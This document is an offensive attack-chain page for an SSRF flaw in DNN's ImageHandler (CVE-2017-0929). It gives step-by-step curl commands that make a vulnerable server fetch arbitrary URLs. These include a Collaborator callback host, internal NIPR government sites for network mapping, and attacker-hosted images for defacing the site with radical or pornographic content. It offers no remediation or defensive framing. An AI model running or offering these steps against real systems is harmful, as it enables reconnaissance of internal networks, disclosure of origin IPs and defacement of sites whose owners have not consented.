

# DNN ImageHandler SSRF for Internal Network Mapping and Defacement

Multi-stage attack chain exploiting CVE-2017-0929 in DNN versions 8.0.0 to 9.1.1, allowing SSRF via the ImageHandler module to fetch arbitrary URLs, enabling internal network reconnaissance on NIPR sites, IP disclosure, responsiveness checks, and potential defacement with malicious images.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- DNN (DotNetNuke) platform versions 8.0.0 to 9.1.1
- ASP.NET web application
- Access to NIPR internal network sites
- No specific ports required beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Public access to the vulnerable DNN site
- No credentials needed for unauthenticated SSRF
- Attacker-controlled external server (e.g., for Collaborator payloads)

## Detailed Attack Procedures

### Step 1: Access the DNN ImageHandler Endpoint
procedure: [[procedures/Exploit-DNN-ImageHandler-SSRF]]

**Objective**: Locate and access the vulnerable ImageHandler endpoint to prepare for SSRF exploitation.

**Instructions**: Navigate to the target site's ImageHandler endpoint using a browser or command-line tool. Use [[commands/curl-dnn-access]] to verify the endpoint responds:

```bash
curl -v "https://target-site.com/DnnImageHandler.ashx?mode=file&url=http://example.com/test.jpg"
```

**Expected Output**: The server fetches and serves the image from the provided URL, confirming the endpoint is active.

**Success Indicators**:
- HTTP 200 response with image content
- No validation errors on basic external URL

### Step 2: Trigger SSRF with Arbitrary URLs
procedure: [[procedures/Exploit-DNN-ImageHandler-SSRF]]

**Objective**: Supply external or internal URLs to exploit SSRF, mapping NIPR sites, disclosing IPs, verifying responsiveness, and loading malicious images for defacement.

**Instructions**: Use Burp Suite to intercept and modify requests, or directly craft URLs with [[commands/curl-dnn-ssrf]] for testing. For external detection, use a Collaborator payload:

```bash
curl -v "https://target-site.com/DnnImageHandler.ashx?mode=file&url=https://your-collaborator.oastify.com/test.png"
```

For internal NIPR mapping, replace with internal URLs like:

```bash
curl -v "https://target-site.com/DnnImageHandler.ashx?mode=file&url=http://internal-nipr-site/data/uploads/images/logo.png"
```

Monitor Collaborator for inbound requests confirming SSRF. For defacement, use a malicious image URL (e.g., hosting radical or pornographic content) to load it on the site.

**Expected Output**: Server makes requests to supplied URLs; Collaborator logs show origin IP and interactions; internal images load or errors reveal site status.

**Success Indicators**:
- Inbound requests to Collaborator from target's IP
- Successful fetch of internal NIPR resources
- Malicious image displayed on the target site

## Attack Chain Summary

### Key Achievements

1. Mapped internal NIPR-only sites via arbitrary URL fetches
2. Disclosed origin IP addresses through external callbacks
3. Verified site responsiveness by pulling default images
4. Enabled potential defacement by loading attacker-controlled malicious images

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Active Scanning]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
